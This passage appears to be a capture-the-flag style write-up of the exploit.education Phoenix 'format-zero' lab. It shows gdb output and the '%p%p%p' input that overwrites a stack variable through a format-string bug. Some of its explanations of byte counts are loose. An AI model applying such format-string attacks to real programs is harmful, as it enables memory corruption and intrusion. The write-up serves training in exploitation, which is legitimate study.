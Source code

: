 ```changeme``` variable is in ```$rbp-0x10```
```

Clearly we can say that our data from ```buffer``` did not place into ```dest``` to overwrite our ```changeme```

Lets try passing some format strings in it,

```c
(gdb) r
Starting program: /home/user/format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%p%p%p

Breakpoint 1, 0x000000000040070a in main ()

(gdb) x/s $rbp-0x10
0x7fffffffe650:	"fff7ffb300\n"

```

```changeme``` is overwritten

So ```%p``` stores address of 14 bytes in ```dest```

3 ```%p``` gives more than 32bytes so that we could overwrite the ```changeme```

Lets try this input on our binary,

```%p``` will pop 3 values from stack of 14*3 bytes which is enough for us

```c
user@phoenix-amd64:~$ ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%p%p%p
Well done, the 'changeme' variable has been changed!
```

Done! we have completed "format-zero"